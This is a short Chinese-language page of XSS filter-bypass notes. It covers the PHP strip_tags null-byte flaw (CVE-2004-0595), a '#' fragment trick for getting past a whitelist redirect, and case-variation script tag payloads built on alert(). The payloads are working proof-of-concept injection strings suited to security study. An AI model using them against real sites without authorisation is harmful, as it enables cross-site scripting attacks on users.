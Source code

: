 浏览器等客户端造成的htmlspecialchars失效

```

```

PHP strip_tags函数

PHP strip_tags（）函数绕过漏洞 `CVE-2004-0595` `CNNVD-200407-076`

```
PHP 4.x到4.3.7版本，以及5.x到5.0.0RC3版本的strip_tags函数，当为允许标签输入限制时不能过滤在标签名称内空(＼0)字符。Web浏览器如Internet Explorer和Safariweb可以处理危险标签，同时忽略空字符以及促进跨站脚本攻击(XSS)漏洞的利用。


```

##### 定位符

```
#<script>alert(1)</script>
```


```
应对场景：
    # White list the allowable languages
    switch ($_GET['default']) {
        case "French":
        case "English":
        case "German":
        case "Spanish":
            # ok
            break;
        default:
            header ("location: ?default=English");
            exit;
    } 
传入的参数如果不是French、English、German、Spanlish这四种字符串的话，就会直接跳到?default=English

使用#定位符，#号后面的字符不会提交给PHP服务器。输入：default=English #<script>alert(1)</script>

```

##### 大小写绕开

```html
<SCRIPT>ALERT('XSS')</SCRIPT>
<SCRIPT>alert('xss')</SCRIPT>
<ScrIpt>alert('xss')</SCRipt>
<ScRiPt>alert('xss')</sCrIpT>
script
ScrIpt
ScrIpt
SCRipt
ScRIPt
SCRIPT

```

